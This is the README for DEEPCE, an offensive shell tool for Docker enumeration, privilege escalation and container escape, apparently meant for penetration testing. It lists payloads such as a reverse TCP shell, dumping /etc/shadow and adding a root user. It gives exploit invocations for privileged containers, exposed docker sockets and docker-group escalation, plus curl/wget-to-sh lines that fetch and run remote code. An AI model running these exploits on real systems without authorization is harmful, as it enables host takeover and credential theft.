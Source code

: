 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

![ShellCheck](https://github.com/stealthcopter/deepce/workflows/ShellCheck/badge.svg)
![ContainerTests](https://github.com/stealthcopter/deepce/workflows/ContainerTests/badge.svg)

[Website](https://stealthcopter.github.io/deepce/)

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependencies. It will make use of additional tools such as curl, nmap, nslookup and dig if available but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for anymore please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk.

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/main/docs)
![screenshot1](docs/images/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker sock

## Exploits

- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
# Make the script executable and then run it
chmod +x ./deepce.sh
./deepce.sh 
```

## Exploits
The following examples show the different kinds of exploits that can be performed and the avaliable payloads.

- Exploit a privileged container to create a new root user on the host operating system:
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```

- Exploit a writable docker sock file in order to print the contents of `/etc/shadow`
```bash
./deepce.sh --no-enumeration --exploit SOCK --shadow
```

- Escalate to root via membership to the docker group on a host and run a custom payload
```bash
./deepce.sh --no-enumeration --exploit DOCKER --command "whoami>/tmp/hacked"
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable to easily set arguments (direct manipulation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. However I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependencies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developers looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/main/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request
